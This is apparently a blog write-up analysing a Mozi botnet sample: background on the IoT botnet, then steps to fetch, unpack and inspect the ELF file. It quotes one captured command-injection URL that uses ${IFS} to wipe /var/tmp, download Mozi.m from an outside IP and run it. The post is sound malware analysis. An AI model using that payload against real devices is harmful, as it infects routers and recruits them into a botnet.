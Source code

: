 ```yaml
---
title: Mozi Malware Analysis
date: 2021-03-14 10:02:03 +0530
categories: [Malware analysis]
tags: [malwareanalysis]     # TAG names should always be lowercase
comments: false
---
```


The Mozi botnet, a peer-2-peer (P2P) malware known previously for taking over Netgear, D-Link and Huawei routers, has swollen in size to account for 90 percent of observed traffic flowing to and from all internet of things (IoT) devices, according to researchers.

Once it cracks a device, the Mozi botnet attempts to bind local UDP port 14737, and it finds and kills processes that use ports 1536 and 5888. Its code contains hardcoded distributed hash table (DHT) public nodes, which are then used to join the botnet’s P2P network. DHT is a distributed system that provides a lookup service allowing P2P nodes to find and communicate with each other.

We found some malicious  URL endpoints recently. So lets analyze them ...

Endpoint : 
url="/cgi-bin/;cd${IFS}/var/tmp;rm${IFS}-rf${IFS}*;${IFS}wget${IFS}http://125.43.125.98:55103/Mozi.m;${IFS}sh${IFS}/var/tmp/Mozi.m"


ANALYZING :
Cool so the URL is trying to download something
Lets check the IP then :

![Desktop View](/assets/img/mozianalysis/reputationanalysis.png){: .normal}

The IP is clean so lets see what it was downloading.
Time for Kali!

![Desktop View](/assets/img/mozianalysis/kalifiledownload.png){: .normal}

Okay so the file is still hosted and it is an ELF file !! cool cool
Lets upload this file to virustotal and see

![Desktop View](/assets/img/mozianalysis/fileanalysis.png){: .normal}

Damn fun lets dig then
So I ran strings on the file and I got this

![Desktop View](/assets/img/mozianalysis/stringsdefault.png){: .normal}

UPX ?
Google it ….
 It is a packer …. Lets download and unpack then ….

![Desktop View](/assets/img/mozianalysis/unpackererror.png){: .normal}

Hmm corrupted!
Similar resource : Corrupted UPX Packed ELF Repair – Threat Analysis (vcodispot.com)
Changed some HEX values using hexedit [read the resource]

![Desktop View](/assets/img/mozianalysis/malwaresuccess.png){: .normal}

Voila! Unpacked

Lets do strings again!

![Desktop View](/assets/img/mozianalysis/telnetsessions.png){: .normal}

It is doing some telnet stuff

![Desktop View](/assets/img/mozianalysis/iptables.png){: .normal}

Some IP table stuff

![Desktop View](/assets/img/mozianalysis/webstuff.png){: .normal}

Also some web stuff
COOL COOL COOL!!!

Okay so for additional information you can just visit this link : 
<a href="https://www.joesandbox.com/analysis/222545/0/html">Automated Malware Analysis Report for Mozi.m - Generated by Joe Sandbox</a>
<a href="https://securityintelligence.com/posts/botnet-attack-mozi-mozied-into-town/">A New Botnet Attack Just Mozied Into Town (securityintelligence.com)</a>